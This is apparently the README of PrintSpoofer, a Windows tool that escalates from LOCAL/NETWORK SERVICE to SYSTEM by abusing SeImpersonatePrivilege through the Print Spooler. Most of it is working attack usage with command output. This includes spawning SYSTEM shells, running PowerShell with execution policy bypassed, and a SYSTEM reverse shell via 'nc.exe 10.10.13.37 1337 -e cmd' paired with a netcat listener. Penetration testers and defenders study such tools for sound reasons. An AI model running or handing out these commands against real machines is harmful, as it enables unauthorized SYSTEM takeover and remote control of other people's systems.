

# PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

For more information: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/).

<p align="center">
  
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Usage 1: Spawn a SYSTEM process and interact with it

If you have an __interactive__ shell, you can create a new SYSTEM process in your current console.

__Use case__: bind shell, reverse shell, `psexec.py`, etc.

```txt
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 2: Spawn a SYSTEM process and exit

If you can __execute commands__ but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

__Use case__: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```txt
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```txt
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 3: Spawn a SYSTEM process on a desktop

If you are __logged on locally or via RDP__ (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

__Use case__: Terminal Session (RDP), VDI

```txt
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
